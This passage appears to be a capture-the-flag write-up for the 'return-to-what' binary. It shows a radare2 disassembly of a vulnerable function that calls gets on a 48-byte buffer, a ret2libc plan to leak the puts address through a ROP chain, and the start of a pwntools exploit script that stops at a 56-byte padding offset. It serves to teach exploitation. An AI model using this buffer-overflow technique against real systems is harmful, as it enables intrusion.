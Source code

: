 ```c
```

## The `vuln` function

The vuln function put the string that you saw in `rdi` and call `puts`. In the next lines the program setup the variables in register to call `gets`function.  Pay attention in size of input buffer expect in gets that is equal `0x30=48`. Here is our buffer overflow.

```
[0x00401185]> pdf
            ; CALL XREF from main @ 0x4011c2
┌ 40: sym.vuln ();
│           ; var char *s @ rbp-0x30
│           0x00401185      55             push rbp
│           0x00401186      4889e5         mov rbp, rsp
│           0x00401189      4883ec30       sub rsp, 0x30 # size of our input buffer
│           0x0040118d      488d3d740e00.  lea rdi, qword str.Where_would_you_like_to_return_to ; 0x402008 ; "Where would you like to return to?" ; const char *s
│           0x00401194      e897feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401199      488d45d0       lea rax, qword [s]
│           0x0040119d      4889c7         mov rdi, rax                ; char *s
│           0x004011a0      b800000000     mov eax, 0
│           0x004011a5      e896feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004011aa      90             nop
│           0x004011ab      c9             leave
└           0x004011ac      c3             ret
[0x00401185]>

```

# The Plan
 The main idea is use `buffer overflow` in `gets` to leak `puts` address in `libc`. For this we create a `ROP`
gadgets that me allow jump to the code in stack that I have put after the buffer overflow. 
> understanding the differences between `got` and `plt` is crucial.

## Leaked puts 
The first step of our plan is setup `plt@got` as parameter for `puts@plt`. 

```python
from pwn import *

def main():

    # log level
    context.terminal = ["tmux", "splitw", "-v"]
    context.log_level = 'DEBUG'

    # setup process in pwntools
    context.arch = "amd64"
    elf=ELF("./return-to-what")
    p=elf.process()

    #p=remote("192.1",1337)

    # The buffer looks like this to create a rop that will 
    # leak address of put.
    # padding + pop_rdi + puts_got + puts_plt + main_plt

    # trigger buffer overflow
    offset = 56
    padding = b"A" * offset
```